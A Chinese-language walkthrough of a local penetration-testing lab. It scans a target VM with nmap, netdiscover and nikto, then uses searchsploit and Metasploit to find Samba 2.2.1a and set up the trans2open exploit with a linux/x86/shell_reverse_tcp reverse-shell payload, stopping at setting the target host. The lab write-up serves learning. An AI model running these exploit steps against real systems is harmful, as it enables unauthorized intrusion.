



准备阶段：
1 | kali ip:192.168.135.128 |
探测靶机ip
因为是本地nat连接，所以仅需要C段扫描
nmap -sS -sV 192.168.135.*
1 | -sS 使用SYN半开式扫描，又称隐身扫描 -sV 服务探测 |
这是几个比较常用的，其他的想要了解推荐这个大牛：https://www.cnblogs.com/bujingyun/p/9910797.html
得到ip：192.168.135.144 系统是linux 还有一些端口开放情况
这里把ip和开放的端口都扫出来了
1 | netdiscover -r 192.168.135.0/24 |
这个扫描比较慢，但也会比较全一些
扫描漏洞
1 | nikto -host 192.168.135.144 |
获得ip之后我们可以访问这个服务器试试，是个apache的首页没啥东西

那我们可以从端口下手
从上边的漏洞和端口扫描情况最明显的是samba漏洞了
利用searchsploit搜索这个设备的漏洞
可以见的有好多，然后我们可以用msf的辅助工具来探测目标服务器的samba的版本
调用msf
1 | 搜索模板 |

1 | 调用模板 |
这里我们探测到目标服务器的samba是2.2.1a版本
回到searchsploit，精确搜索

有四个漏洞利用方法，我们先选第一个msf的trans2open
进入msfconsole 对samba进行相对精确的搜索，因为前边我们查询到目标系统是linux的，所以建议选择第三个
然后挂载攻击载荷
1 | linux/x86/meterpreter/reverse_tcp |
这个地方需要注意我们需要修改挂载的载荷，因为新版本的msf默认提供的这个载荷是针对较新版本的linux的，是基于内存的攻击，而我们的目标靶机版本较老，需要改成之前的基于cmd的攻击模块
1 | set payload linux/x86/shell_reverse_tcp |
然后配置rhost进行攻击
1 | set rhost 192.168.135.144 |